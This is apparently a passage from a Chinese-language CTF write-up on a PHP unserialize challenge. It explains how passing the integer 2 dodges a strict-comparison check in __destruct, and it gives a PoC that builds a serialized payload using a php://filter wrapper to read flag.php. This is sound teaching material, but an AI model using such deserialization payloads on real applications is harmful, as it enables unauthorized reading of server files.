 ```php
        $this->content = "";
        $this->process();
    }
 
}
 
function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}
 
if(isset($_GET{'str'})) {
 
    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }
 
}
```

先来理解一下源码：

这里先判断存不存在str传参，存在的话先拿去`is_valid`函数过滤一下，这里`is_valid`函数的作用是检查一下str字符串里面有没有存在不可打印的字符。ord函数是打印第一个字符的ASCII码必须在32到125之间

然后进入反序列化，这里反序列化后生成一个序列化对象，但是不触发任何函数，然后进程结束，序列化对象销毁，触发`__destruct()`，判断op值如果强等于“2”则把op重置为“1”，注意这里的“2”是字符串，然后把content置空，执行`process()`函数，进入`process()`函数后先判断op，op等于“1”进入write函数，op等于“2”进入read函数（write函数实现一个文件写入的功能，read函数实现一个文件读取的功能）

这里我们需要进入read函数读取flag，所以需要让进入`process()`函数的op值为2，但是我们从一开始传入op为“2”时，在进入`process()`函数之前会在`__destruct()`被重置为1，所以我们需要绕过这个重置1

这里我们用到了强等于和弱等于，这里的`__destruct`函数是`==="2"`，在`process()`函数里面是`=="2"`

数字2不强等于字符串2，但是数字2弱等于字符串2，所以我们可以op设置为数字2，在destruct函数时2不强等于“2”，所以op不会被重置，进入`process()`函数后op值2弱等于“2”，所以进入read函数进行读取flag.php

所以构造poc生成序列化字符串，在ctf比赛中，可能还需要读取nginx或者apache或者日志文件，来获取绝对路径

```php
<?php
class FileHandler {
    public $op = 2;
    public $filename = 'php://filter/read=convert.base64-encode/resource=/www/flag.php';
    public $content = '';
}

$a = new FileHandler();
echo serialize($a);

# O:11:"FileHandler":3:{s:2:"op";i:2;s:8:"filename";s:62:"php://filter/read=convert.base64-encode/resource=/www/flag.php";s:7:"content";s:0:"";}?>
```
